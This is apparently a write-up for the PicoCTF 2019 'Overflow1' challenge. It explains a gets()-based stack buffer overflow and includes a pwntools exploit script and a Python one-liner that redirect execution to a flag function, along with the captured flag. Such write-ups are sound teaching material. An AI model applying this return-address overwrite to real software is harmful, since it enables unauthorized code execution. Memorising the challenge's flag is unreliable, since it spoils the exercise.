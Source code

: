 # PicoCTF 2019 - Binary Exploit - Overflow1

Simple buffer overflow,
the actual vulnerability is inside the function 'vuln'

## The vulnerability
it calls 'gets', a function that is known the be very dangerous (it even says it in the man page to never use this function)
The reason this function is dangerous is because of how it works:
'gets(char \*s)  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\\0').  No check for buffer overrun is performed'
So it keeps reading input, even if this is way bigger then the amount of memory allocated for that string
Causing it the overwrite values from the stack

## Exploiting it
The plan is to overwrite the return address by overflowing the buffer and rewriting the values on the stack.

First we need to find the buffer (how many characters are allocated to fit in the given string)

We are given the source code so we can see the 'buffsize' variable which is the used buffer here for our string, so our string is allocated to hold 64 characters

so if we give as input a string of 64 characters + 4 characters we are overflowing our buffer.. yay :)

but we arent overwriting our return pointer yet, its still a few bytes out of range!

if we dissassembly and go through the 'vuln' function step by step we can see the return address gets loaded from [ebp-0x4]
so lets walk through the program

___Registers note___;

* __esp__ = the stack pointer; it points to where the stack begins (the 'top' of the stack)

* __ebp__ = the stack frame pointer;

The stack grows from esp -> ebp -> and past it 
(we actually overwrite ebp aswell in this overflow)

![picture alt](https://i.gyazo.com/4f6fe4c601e114590933f72ca9aa6f54.png)

As you can see, using a string "A" of length 64 we are still, 3 addresses of overwriting the return pointer to main
The address we want to overwrite is  `0x08048705` - it points to main+103
so we need to add 12 bytes to our overflow + another 4 of the address we want to jump to which is the flag function ( located @ `0x080485e6` )

Here is another picture of a slighlty modified overflow

the string used was "A" * 64 + "B" * 12

![picture alt](https://i.gyazo.com/14afae29edec7341bbc230d6743d7574.png)

As you can see adding the 12 more bytes puts the main address (`0x08048700`) right next to us 
(idk why it now points to main+98 and +103 earlier) 
now all that is left is to write the remaining 4 bytes as a address to the function we want

now to write our exploit script, i used python & pwntools (note: this is setup to work locally, if you want it to work on the picoCTF server check exploit.py -i couldnt get the script to work properly using the pwntools ssh so you are supposed to run it manually now);

```
from pwn import *
# Flag function is located @ 0x080485e6
flag_function = util.packing.p32(0x080485e6)
# overwrite our buffer + the 3 other addresses we dont need
buff = "A" * 64 + "B" * 12
payload = buff + flag_function
p = process("./vuln")
p.recvuntil("")
p.sendline(payload)
print p.recvall()
```

I had some trouble with the script but the output should be something like:
```
Sain@pico-2019-shell1:/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a$ python -c "print 'A' * 76 + '\xe6\x85\x04\x08'" | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5bbbf8810}Segmentation fault (core dumped)
```